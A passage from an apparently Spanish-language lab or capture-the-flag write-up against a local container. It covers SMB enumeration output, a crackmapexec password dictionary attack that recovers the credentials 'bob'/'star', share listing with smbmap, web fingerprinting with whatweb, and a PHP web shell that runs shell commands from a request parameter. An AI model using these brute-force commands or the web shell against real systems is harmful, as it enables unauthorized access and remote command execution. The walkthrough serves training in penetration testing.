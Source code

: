 ```bash
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 30 minutes
  Lockout duration: 30 minutes
  Lockout threshold: None
Domain logoff information:
  Force logoff time: 49710 days 6 hours 21 minutes

 =======================================
|    Printers via RPC for 172.17.0.2    |
 =======================================
[+] No printers returned (this is not an error)

Completed after 6.01 seconds
```
lo que me interesa de esta informacion es la enumeracion de los usuarios 


![image](https://github.com/user-attachments/assets/86c7e225-d59c-42ee-a50f-da42439d625b)


aplico un ataque de diccionario contra el servicio samba y los usuarios que he conseguido

```ruby
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt |grep -v STATUS_LOGON_FAILURE
```

![image](https://github.com/user-attachments/assets/32b584ce-fb85-45db-b7f5-49861dd7fef6)

ahora puedo enumerar recursos compartidos

```ruby
smbmap -u 'bob' -p 'star' -H 172.17.0.2
```

![image](https://github.com/user-attachments/assets/d65bad7c-f048-413e-9638-7e88f7a16b4b)

puedo escribir y leer en `html` asi que con `whatweb` chequeo las tecnologias que usa el servicio web

```ruby
whatweb 'http://172.17.0.2'
```

![image](https://github.com/user-attachments/assets/829ed93a-36cf-48fa-9474-7e56e5103c46)

veo que esta corriendo un `apache`, cargare un codigo `php` a ver si lo llega a interpretar y logro la ejecucion de comandos

```code.php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
